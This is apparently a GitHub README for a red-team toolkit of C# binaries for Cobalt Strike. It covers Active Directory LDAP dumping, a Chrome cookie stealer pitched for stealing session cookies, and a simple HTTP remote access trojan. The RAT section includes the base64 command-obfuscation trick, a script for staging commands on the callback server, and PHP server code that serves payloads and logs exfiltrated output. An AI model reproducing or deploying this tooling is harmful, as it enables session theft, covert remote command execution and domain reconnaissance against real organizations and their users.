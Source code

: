 # RedTeamCSharpScripts
C# Script used for Red Team. These binaries can be used by Cobalt Strike execute-assembly or as standalone executable. 


# LDAP utility

LDAP utility contains several LDAP query that will return all the valuable information you are looking for.

The utility support the following options

```
DumpAllUsers        Dump all the users 
DumpUser            Dump user information based on the samaccountname provided
DumpUsersEmail      Dump all users and email addresses
DumpAllComputers    Dump all computers
DumpComputer        Dump a computer information based on the name provided
DumpAllGroups       Dump all groups
DumpGroup           Dump a group information based on the name provided
DumpPasswordPolicy  Dump domain password policy
CheckManaged        Check GPOs for managedby objects    
```

```
Usage: ldaputility.exe options domain [arguments]

ldaputility.exe DumpAllUsers RingZer0
ldaputility.exe DumpUser RingZer0 mr.un1k0d3r
ldaputility.exe DumpUsersEmail RingZer0
ldaputility.exe DumpAllComputers RingZer0 
ldaputility.exe DumpComputer RingZer0 DC01
ldaputility.exe DumpAllGroups RingZer0
ldaputility.exe DumpGroup RingZer0 "Domain Admins"
ldaputility.exe DumpPasswordPolicy RingZer0
ldaputility.exe DumpPwdLastSet RingZer0
ldaputility.exe DumpLastLogon RingZer0
ldaputility.exe CheckManaged RingZer0
```

The `-verbose` switch can be added to get verbose output.

### The CheckManaged feature

Active Directory support the following two attributes `managedobjects` and `managedby`. These attributes can be used to assign a manager to an object. It can be a user managing a computer. There is a GPO that can be used to grant local admin to managedobjects owner. The user will not be listed as a local admin by default by the correlation between `managedby` and `managedobjects` can identify users that managed computers.

The `CheckManaged` feature first confirm the presence of the GPO in question by looking at the SYSVOL policies present on the DC. If the `groups.xml` is present, it dump all the users with a `managedobjects` attribute and the computers with a `managedby` attribute.

![managedexample](https://raw.githubusercontent.com/Mr-Un1k0d3r/RedTeamCSharpScripts/master/managed.png)

# Cookies Monster

Fetch Chrome cookie in plaintext. Perfect to steal a target session cookie through execute-assembly

```
Usage: CookiesMonster.exe filter
```

The filter argument is optional. If not specified it will dump all the cookies. Since the cookies are encrypted using ProtectedMemory Windows APIs you need to have access to the current user context to be able to generate the proper decryption key. 

The binary need to be compiled statically to include the System.Data.SQLite dll.

# WMI Utility

Set of predefined WMI query that can be used to query CIM classes.

The utility support the following options

```
Usage: WMIUtility.exe options [arguments]

ListProcess     Return a list of running process
ListService     List all the services
Query           Args (query, columns) wmiutility.exe Query "Select * From Win32_CommandLineAccess" "Name,Description"
```

# enumerateuser.cs

List all the users samaccountname & mail

```
execute-assembly C:\enumerateuser.exe domain
```

# ldapquery.cs

Perform custom ldap queries

```
execute-assembly C:\enumerateuser.exe ringzer0team "(&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))" samaccountname,mail

Querying LDAP://ringzer0team
Querying: (&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))
Extracting: samaccountname,mail
Mr.Un1k0d3r,Mr.Un1k0d3r@corp.com,
```

# simple-http-rat.cs

A simple RAT that execute command over HTTP. The code is calling back every 10 seconds and will execute the data present on the callback URL.

`rat.exe callbackurl`

The data is obfuscated using the following python trick

```
$ python -c 'import base64; print base64.b64encode("cmd.exe /c whoami")[::-1]'
=kWbh9Ga3ByYvASZ4VmLk12Y
```

The file creation can also be automated using the following script

```
import base64
import sys
import os

path = sys.argv[1]
cmd = sys.argv[2]

if os.path.exists(path):
        os.remove(path)
        
open(path, "w+").write(base64.b64encode(cmd)[::-1])
print "Command added"
```

```
update.py /var/www/html/callback.html "whoami"
```

For the post back RAT the following PHP code can be used to capture the data

```
<?php
$request = (object)array();

if($_SERVER['REQUEST_METHOD'] === "POST") {
        $request->data = file_get_contents("php://input");
        $request->ip = $_SERVER["REMOTE_ADDR"];
        $request->time = date("r");

        $data = str_replace("!)(*&#:<]", "A", $request->data);
        $decoded = base64_decode($data);

        file_put_contents("/tmp/output.txt", "[" . $request->time . "](" . $request->ip . "): " . $decoded . "\r\n", FILE_APPEND);
} else {
        echo file_get_contents("/tmp/payload.txt");
}
?>
```

# Credit

Mr.Un1k0d3r RingZer0 Team

Tazz0 RingZer0 Team
